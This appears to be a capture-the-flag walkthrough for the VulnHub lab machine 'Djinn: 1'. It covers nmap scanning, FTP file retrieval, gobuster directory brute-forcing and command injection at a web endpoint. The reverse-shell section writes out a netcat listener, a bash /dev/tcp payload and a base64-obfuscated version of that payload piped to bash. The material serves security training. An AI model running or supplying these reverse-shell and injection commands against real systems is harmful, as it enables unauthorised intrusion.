:::::::::::::::::::::: page
# Djinn: 1 {#djinn-1 .title}

\

## 

## Djinn: 1

- **[ReadMe: 1]{style="color:#f66151;"}** :-

<!-- -->

- Download the machine : <https://www.vulnhub.com/entry/djinn-1,397/>



- Open ova file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#e01b24;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::



- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.155
:::



- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 192.168.2.155
:::

- 

::: codebox
    nmap -sC -sV -A 192.168.2.155    
:::

1.  [FTP Enumeration]{style="color:#e01b24;"} :

- FTP login :

::: codebox
    ftp 192.168.2.155
:::

- Check the list :

::: codebox
    ls
:::

- Download the file :

::: codebox
    get creds.txt
:::

- 

::: codebox
    get game.txt
:::

- 

::: codebox
    get message.txt
:::



- Read the content of download file :

::: codebox
    cat creds.txt
:::

- 

::: codebox
    cat game.txt
:::

- 

::: codebox
    cat message.txt
:::



1.  [Web Enumeration]{style="color:#e01b24;"} :

- IP visit in browser with port 7331 : <http://192.168.2.155:7331/>

<!-- -->

- Now run the gobuster for directory brute force :

::: codebox
    gobuster dir -u http://192.168.2.155:7331/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
:::



- Visit the endpoints : <http://192.168.2.155:7331/wish>



<http://192.168.2.155:7331/genie>



- In /wish endpoint we can execute the command :

::: codebox
    id
:::

- 

::: codebox
    http://192.168.2.155:7331/genie?name=uid%3D33%28www-data%29+gid%3D33%28www-data%29+groups%3D33%28www-data%29%0A
:::

 execute the command in url .

1.  [Reverse shell]{style="color:#e01b24;"} :

- Start the listener :

::: codebox
    nc -nlvp 443
:::

- Reverse shell payload :

::: codebox
    bash -c 'bash -i >& /dev/tcp/192.168.2.219/443 0>&1'
:::



 Not execute the payload .

- Encoding the Payload in base 64 :

::: codebox
    echo -n 'bash -i >& /dev/tcp/192.168.2.219/443 0>&1' | base64 -w 0
:::



- Final Payload make :

::: codebox
    echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMjE5LzQ0MyAwPiYx | base64 -d | bash
:::

- Then run the payload :



- After submit the payload then we get the shell :


::::::::::::::::::::::
